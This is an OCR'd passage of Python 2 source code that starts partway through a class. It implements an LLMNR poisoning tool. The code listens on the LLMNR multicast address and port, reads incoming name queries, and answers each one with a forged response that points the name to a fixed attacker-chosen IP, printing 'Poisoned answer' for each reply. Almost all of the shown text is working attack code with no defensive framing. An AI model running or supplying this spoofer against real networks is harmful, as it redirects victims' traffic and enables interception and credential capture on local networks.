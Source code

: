 ```
            "TID"               # Tid
            "\x80\x00"          # Flags  Query(0x0000)? or Response(0x8000) ?
            "\x00\x01"          # Question
            "\x00\x01"          # Answer RRS
            "\x00\x00"          # Authority RRS
            "\x00\x00"          # Additional RRS
            "LENGTH"            # Question Name Length
            "NAME"              # Question Name
            "\x00"              # Question Name Null
            "\x00\x01"          # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
            "\x00\x01"          # Class
            "LENGTH"            # Answer Name Length
            "NAME"              # Answer Name
            "\x00"              # Answer Name Null
            "\x00\x01"          # Answer Type ,IPv4(0x0001)? or IPv6(0x001c)?
            "\x00\x01"          # Class
            "\x00\x00\x00\x1e"  # TTL Default:30s
            "\x00\x04"          # IP Length
            "IPADDR")           # IP Address

    def init_socket(self):
        self.HOST = "0.0.0.0"
        self.PORT = 5355
        self.MulADDR  = "224.0.0.252"
        self.las.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 255)
        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP,
                       socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))

    def Answser(self):
        self.las.bind((self.HOST, self.PORT))
        print "Listening..."
        while True:
            data, addr = self.las.recvfrom(1024)

            tid = data[0:2]
            namelen = struct.unpack('>B', data[12])[0]
            name = data[13:13 + namelen]

            data = self.AnswerData.replace('TID', tid)
            data = data.replace('LENGTH', struct.pack('>B', namelen))
            data = data.replace('NAME', name)
            data = data.replace('IPADDR', socket.inet_aton(self.IPADDR))

            print "Poisoned answer(%s) sent to %s for name %s " % (self.IPADDR, addr[0], name)
            self.las.sendto(data, addr)

        self.las.setsockopt(socket.IPPROTO_IP, socket.IP_DROP_MEMBERSHIP,
                       socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))
        self.las.close()

if __name__ == "__main__":
    llmnr = LLMNR_Answer("11.22.33.44")
    llmnr.Answser()

```
